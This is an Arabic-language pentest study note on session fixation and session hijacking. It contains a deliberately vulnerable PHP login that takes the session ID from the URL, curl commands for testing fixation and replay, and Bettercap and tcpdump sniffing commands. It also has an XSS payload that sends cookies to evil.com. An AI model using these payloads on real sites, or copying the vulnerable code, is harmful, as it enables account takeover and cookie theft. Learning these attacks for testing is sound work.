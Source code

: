 
### **1. تثبيت الجلسة (Session Fixation)**
#### **شرح عملي:**
تثبيت الجلسة هو هجوم بيحصل لما المهاجم بيخليك تستخدم Session ID (معرف الجلسة) هو اللي مختاره، وبعدين لما تسجل دخولك، الـ Session ID ما بيتغيرش. يعني لو المهاجم عرف الـ ID ده قبلك، يقدر يدخل بحسابك بعد ما تسجل.

- **كيف بيحصل؟** المهاجم بيبعتلك لينك فيه Session ID محدد (مثلاً في URL أو كوكيز)، ولو الموقع مش بيجدد الـ ID بعد الLogin، المهاجم بيستخدم نفس الـ ID.

#### **كود عملي (PHP مع ثغرة Session Fixation):**
- كود PHP ضعيف:
```php
<?php
session_start();
if (isset($_GET['sessionid'])) {
    session_id($_GET['sessionid']); # المهاجم بيحدد الـ ID
}
if (isset($_POST['username']) && $_POST['username'] == 'admin' && $_POST['password'] == 'admin123') {
    $_SESSION['loggedin'] = true;
    echo "تم تسجيل الدخول!";
} elseif (isset($_SESSION['loggedin'])) {
    echo "أنت مسجل بالفعل!";
} else {
    echo "ادخل بياناتك!";
}
?>
```
- لو المهاجم بعتلك لينك زي:
```
http://example.com/login.php?sessionid=abc123
```
- وأنت سجلت دخولك، الـ Session ID هيفضل `abc123`. المهاجم يفتح نفس الـ ID في متصفحه ويدخل بحسابك!

#### **أمر عملي (تجربة يدوية):**
- افتح اللينك بـ `curl`:
```bash
curl -c cookies.txt "http://<IP>/login.php?sessionid=abc123"
curl -b cookies.txt -d "username=admin&password=admin123" "http://<IP>/login.php"
```
- لو رجعلك "تم تسجيل الدخول"، جرب نفس الـ Session ID في متصفح تاني:
```bash
curl -b "PHPSESSID=abc123" "http://<IP>/login.php"
```
- لو دخلك، يبقى فيه Session Fixation.

#### **خلاصة Pentest بالعامية:**
"لو لقيت موقع بياخد Session ID من الـ URL أو الكوكيز وما بيغيرهوش بعد الLogin، ابعت لنفسك لينك فيه ID وشوف لو بيخليك تدخل بنفس الـ ID تاني. لو نفع، يبقى المهاجم ممكن يسرق حسابك بسهولة!"

---

### **2. اختطاف الجلسة (Session Hijacking)**
#### **شرح عملي:**
اختطاف الجلسة هو لما المهاجم بيسرق الـ Session ID بتاعك بعد ما تسجل دخولك، وبيستخدمه عشان يدخل بحسابك. ده بيحصل لو الـ Session ID متسرب (زي في HTTP مش HTTPS) أو لو فيه ثغرة XSS بتسرق الكوكيز.

- **مثال:** لو الموقع بيبعت الكوكيز عبر HTTP، المهاجم بيقدر يعترضها بـ MITM (Man-in-the-Middle).

## طرق استغلالها لو لقتها :
### 1. [[Exploiting insecure cookie settings#**3. استغلال الكوكيز عبر XSS]] 
### 2. [[Exploiting insecure cookie settings#2. استغلال الكوكيز عبر اعتراضها (Cookie Interception)]]
#### **خلاصة Pentest بالعامية:**
"لو الموقع مش بيستخدم HTTPS أو فيه XSS، جرب تعترض الكوكيز بـ Wireshark أو تحقن سكربت يسرقها. خد الـ Session ID وحطه في متصفحك، لو دخلت يبقى خطفت الحساب!"

---
### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Session Fixation:**
   - ء **URL-Based:** ابعت لينك زي `http://<IP>/login?sessionid=abc123` للضحية، انتظرها تسجل، واستخدم نفس الـ ID:
     ```bash
     curl -b "PHPSESSID=abc123" "http://<IP>/dashboard"
     ```
   -  ء **Weak App:** لو التطبيق بيقبل Session ID من الكوكيز بدون تجديد، زرعه يدوي وانتظر الLogin.

2. **Session Hijacking:**
   - ء  **MITM:** استخدم أداة زي Bettercap تعترض الكوكيز على شبكة Wi-Fi:
     ```bash
     bettercap -iface wlan0 -caplet http-ui
     ```
     خد الـ Session ID وحطه في متصفحك.
   - **XSS:** لو فيه ثغرة XSS، حط كود يسرق الكوكيز:
     ```html
     <img src=x onerror="fetch('http://evil.com?c='+document.cookie)">
     ```
   - **HTTP Leak:** لو الموقع مش HTTPS، اسمع الطلبات بـ tcpdump:
     ```bash
     tcpdump -i eth0 port 80 -w capture.pcap
     ```

3. **مشترك:**
   -  ء **No Secure Flag:** لو الكوكيز بدون `Secure` أو `HttpOnly`، اسرقها بـ XSS أو MITM.
   - ء  **Predictable IDs:** لو الـ Session ID متوقع (زي `user1`, `user2`)، جرب تخمنه يدوي.
   - ء  **Session Replay:** خد Session ID قديم وجرب تستخدمه لو الموقع ما بيبطلش الجلسات القديمة:
     ```bash
     curl -b "PHPSESSID=old123" "http://<IP>/dashboard"
     ```

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، قوللي وأنا أفصلك!